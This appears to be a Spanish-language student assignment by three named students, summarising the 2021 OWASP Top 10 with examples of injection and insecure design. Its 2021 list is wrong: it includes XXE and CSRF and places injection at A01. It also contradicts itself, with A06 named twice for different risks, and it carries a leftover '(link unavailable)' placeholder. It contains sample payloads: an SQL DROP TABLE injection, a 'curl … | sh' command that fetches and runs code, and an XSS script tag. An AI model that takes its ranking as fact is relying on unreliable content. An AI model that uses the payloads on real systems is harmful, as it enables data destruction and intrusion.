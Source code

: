Integrantes

Paola Quiroga
ingreid.quiroga@uniminuto.edu.co

Alejandro Cortes
jairo.cortes@uniminuto.edu.co
acortes2

Charles Guerrero
charles.guerrero@uniminuto@uniminuto.edu.co
CharlesGuerrero14

El OWASP Top 10
Es un documento de concientización estándar para desarrolladores y seguridad de aplicaciones web. Representa un amplio consenso sobre los riesgos de seguridad más críticos para las aplicaciones web.

2021 OWASP Top 10
Inyección de código (A01:2021): Vulnerabilidad que permite a un atacante inyectar código malicioso en una aplicación.

Autenticación y autorización débiles (A02:2021): Vulnerabilidades en la autenticación y autorización que permiten accesos no autorizados.

Exposición de datos sensibles (A03:2021): Vulnerabilidades que permiten la exposición de datos sensibles, como contraseñas o información financiera.

XML External Entities (XXE) (A04:2021): Vulnerabilidad que permite a un atacante acceder a datos confidenciales mediante la inyección de entidades XML externas.

Interceptación de solicitudes entre sitios (CSRF) (A05:2021): Vulnerabilidad que permite a un atacante realizar acciones no autorizadas en una aplicación.

Configuración de seguridad inadecuada (A06:2021): Vulnerabilidades debido a una configuración de seguridad inadecuada.

Cross-Site Scripting (XSS) (A07:2021): Vulnerabilidad que permite a un atacante inyectar código JavaScript malicioso en una aplicación.

Deserialización de datos insegura (A08:2021): Vulnerabilidad que permite a un atacante ejecutar código malicioso mediante la deserialización de datos.

Uso de componentes con vulnerabilidades conocidas (A09:2021): Vulnerabilidades debido al uso de componentes con vulnerabilidades conocidas.

Registro y seguimiento de seguridad insuficiente (A10:2021): Vulnerabilidades debido a un registro y seguimiento de seguridad insuficiente.

Inyección (A01:2021)
La inyección ocurre cuando un atacante puede insertar datos maliciosos en una aplicación, permitiéndole ejecutar código o acceder a información confidencial.

Ejemplos de Inyección:

Inyección SQL: Un atacante ingresa en un formulario de búsqueda el siguiente texto: Robert'); DROP TABLE usuarios; --. Si la aplicación no valida la entrada, puede ejecutar la sentencia SQL y eliminar la tabla de usuarios.

Inyección de comandos: Un atacante ingresa en un formulario de carga de archivos el siguiente texto: curl (link unavailable) | sh. Si la aplicación no valida la entrada, puede ejecutar el comando y descargar malware.

Inyección de código: Un atacante ingresa en un formulario de comentarios el siguiente texto: <script>alert('XSS')</script>. Si la aplicación no valida la entrada, puede ejecutar el código JavaScript y mostrar un mensaje emergente.

Diseño Inseguro (A06:2021)
El diseño inseguro se refiere a la falta de consideración de la seguridad en el diseño de una aplicación, lo que puede llevar a vulnerabilidades.

Ejemplos de Diseño Inseguro:

Autenticación débil: Una aplicación utiliza solo el nombre de usuario y contraseña para autenticar, sin utilizar métodos adicionales de verificación como 2FA.

Almacenamiento de contraseñas en texto plano: Una aplicación almacena las contraseñas de los usuarios en texto plano, en lugar de utilizar hashes y sal.

Uso de protocolos inseguros: Una aplicación utiliza protocolos inseguros como HTTP en lugar de HTTPS para la comunicación.

Falta de validación de entrada: Una aplicación no valida la entrada del usuario, permitiendo la inyección de código malicioso.

Uso de bibliotecas y frameworks obsoletos: Una aplicación utiliza bibliotecas y frameworks obsoletos que contienen vulnerabilidades conocidas.

Es importante tener en cuenta que estos son solo ejemplos y que la seguridad de una aplicación depende de muchos factores. Es recomendable consultar la documentación oficial de OWASP para obtener más información detallada.
